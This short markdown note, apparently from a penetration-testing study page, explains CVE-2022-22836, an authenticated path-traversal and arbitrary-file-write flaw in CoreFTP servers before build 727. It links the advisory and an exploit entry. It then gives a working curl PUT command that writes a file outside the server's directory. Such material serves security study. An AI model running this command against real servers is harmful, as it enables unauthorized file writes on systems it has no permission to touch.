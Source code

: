 

## CoreFTP < Build 727

[NVD - CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability.

This vulnerability allows us to write files outside the directory to which the service has access.

[CoreFTP Server build 725 - Directory Traversal (Authenticated) - Windows remote Exploit](https://www.exploit-db.com/exploits/50652)

```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

